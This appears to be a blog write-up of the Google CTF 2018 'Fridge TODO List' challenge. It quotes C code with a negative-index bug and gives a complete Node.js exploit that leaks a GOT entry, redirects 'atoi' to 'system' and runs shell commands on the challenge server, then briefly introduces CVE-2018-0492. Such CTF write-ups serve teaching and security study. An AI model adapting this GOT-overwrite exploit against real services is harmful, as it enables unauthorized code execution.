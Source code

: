 # Finding Cakes at Google CTF 2018

(Intro TODO)

## Fridge TODO List

The source code of the vulnerable program is included in the attachment.
Reading over it, it's not hard to see what's vulnerable, but how to exploit it
is another question:

```C
// [...]

void store_todo() {
  printf("In which slot would you like to store the new entry? ");
  fflush(stdout);
  int idx = read_int();
  if (idx > TODO_COUNT) {
    puts(OUT_OF_BOUNDS_MESSAGE);
    return;
  }
  printf("What's your TODO? ");
  fflush(stdout);
  read_line(&todos[idx*TODO_LENGTH], TODO_LENGTH);
}

void print_todo() {
  printf("Which entry would you like to read? ");
  fflush(stdout);
  int idx = read_int();
  if (idx > TODO_COUNT) {
    puts(OUT_OF_BOUNDS_MESSAGE);
    return;
  }
  printf("Your TODO: %s\n", &todos[idx*TODO_LENGTH]);
}

// [...]
```

If I enter a negative number, I can read and write data out of bound. However,
`TODO_LENGTH` is `0x30`, with some math and a disassembler, I found places
that I can access:

```
-6  The "write" function in the GOT
-5  The "strncat" function in the GOT
-4  The "open" function in the Global Offset Table (GOT)
-3  Some random place
-2  Start of "username" buffer
-1  Middle of "username" buffer
```

The `system` function in between `write` and `strncat` would allow me to
execute any shell command, so my goal should be to overwrite the GOT and make
some other function point to `system`. Since `atoi` is used to parse my menu
choice input, it would be easy to exploit if I can make `atoi` point to
`system`. But there is another problem, modern operating systems have ASLR,
and a static payload would not work.

I spent some time creating a 
[Node.js library](https://github.com/jspenguin2017/Blog/tree/master/tools/lib)
that allow my scripts to react to different server response over `netcat`.
Since I can't directly read the address of `system`, I have to calculate it
based on something. `strncat` is already called before I can overwrite the GOT,
but `write` is only called when the program is exiting, so the GOT entry should
be still pointing to the Procedure Linkage Table (PLT). With Hopper
Disassembler, I determined that the `system` entry in PLT is `0x30` below
`write`. Hopefully it'll work:

```JavaScript
"use strict";

const assert = require("assert");
const nc = require("./lib/netcat");
const hex = require("./lib/hexutil");

const conn = new nc("fridge-todo-list.ctfcompetition.com", 1337);

(async () => {
    // Log in
    await conn.read_until("user:");
    conn.write_line("root");

    await conn.read_until(">");
    conn.write_line("2");

    // Leak address of "write" in the GOT
    await conn.read_until("read?");
    conn.write_line("-6");

    await conn.read_until("TODO: ");
    let data = await conn.read_until("Hi root");

    const i = data.indexOf("\n\n");
    assert(i !== -1);
    data = data.slice(0, i);
    hex.add(data, 0x30);

    // Overwrite "atoi" with "system", corrupting "open" on the way
    await conn.read_until(">");
    conn.write_line("3");

    await conn.read_until("entry?");
    conn.write_line("-4");

    await conn.read_until("TODO?");
    conn.write("A".repeat(8)); conn.write(data); conn.write("\n");

    // List directory
    await conn.read_until(">");
    conn.write_line("ls -al ./todos");
})();
```

Let's try it:

```
$ node exploit
[...]
> ls -al ./todos
total 12
drwxrwxrwt 2 user user   80 Jul  8 03:47 .
drwxr-xr-x 3 user user 4096 Jun 29 14:38 ..
-rw-r--r-- 1 user user 6144 Jul  8 03:47 CountZero
-rw------- 1 user user    0 Jul  8 03:47 root
[...]
```

Looks like Wintermuted is using `CountZero` as his username:

```
$ nc fridge-todo-list.ctfcompetition.com 1337
[...]
user: CountZero
+=====+=================================================================+
|   0 | Watch Hackers (again)                                           |
|   1 | Figure out why the fridge keeps beeping                         |
|   2 | check /home/user/holey_beep                                     |
|   3 | debug the fridge - toilet connectivity                          |
|   4 | follow sec advice: CTF{goo.gl/cjHknW}                           |
+=====+=================================================================+
[...]
```

And there is the flag. Check `/home/user/holey_beep`? What does that mean?

## Holey Beep

Holey Beep or [CVE-2018-0492](https://nvd.nist.gov/vuln/detail/CVE-2018-0492)
is a privilege escalation vulnerability in the `beep` utility.
